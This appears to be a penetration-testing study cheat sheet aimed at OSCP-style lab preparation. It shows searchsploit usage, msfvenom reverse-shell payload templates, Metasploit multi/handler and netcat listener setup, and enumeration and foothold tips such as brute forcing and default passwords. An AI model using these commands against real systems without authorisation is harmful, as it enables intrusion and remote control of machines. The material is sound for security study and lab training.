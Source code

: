 # How to hack without Metasploit

## 1 . Finding Exploits

#### Search for exploits

```
searchsploit keyword1 keyword2 keyword3 ...
```

#### Copy exploit

```
searchsploit -m [exploit database id]
```

If searchsploit fails to find any juicy exploits, try Google. If Google fails, well, there’s probably not a public exploit. TRY HARDER!

It may be exploitable with:

* Public POC (github, blog etc.)
* Need to understand the code and POC
* Try with your own
* Bruteforcing
* Clear text password in files (need detail enumeration)

## 2 . Customising Payloads

To open a Meterpreter session or a reverse shell so that you can take control of the victim box&#x20;

#### MsfVenom

```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]
```

* staged - `windows/shell/reverse_tcp`
* unstaged - `windows/shell_reverse_tcp`

Other option

* `-e` to choose an encoder
* `-b` allows you to set bad characters

List all payloads for msfvenom -&#x20;

```
msfvenom --list payloads
```

## 3 .  Privilege Escalation

* To - be - filled
* To - be - filled

## 4 . Catching reverse shells

Metasploit multi/handler listener

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

Netcat listener (unstaged payload)

```
root@kali:~# nc -nvlp 80
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
```

## 5 .  Enumerate more (adithyanak way)

**Enumerate more means:**

* Scan ports, scan all the ports, scan using different scanning techniques,
* brute force web dirs, brute force web dirs using different wordlist and tools
* check for file permissions, check for registry entries, check for writable folders, check for privileged processes and services, check for interesting files,
* look for a suitable exploit using searchsploit , search google for valuable information, etc.
* webserver version, web app version, CMS version, plugin versions‌

**Tip for Foothold :**&#x20;

* Password reuse
* The default password of the application / CMS
* Guess the file location incase of LFI with username
* username from any notes inside the machine might be useful for Bruteforce
* Try harder doesn’t mean you have to try the same exploit with 200x thread count or with an angry face. Go, enumerate harder.

Refer : [<mark style="color:orange;">https://blog.adithyanak.com/oscp-preparation-guide/enumeration</mark>](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)
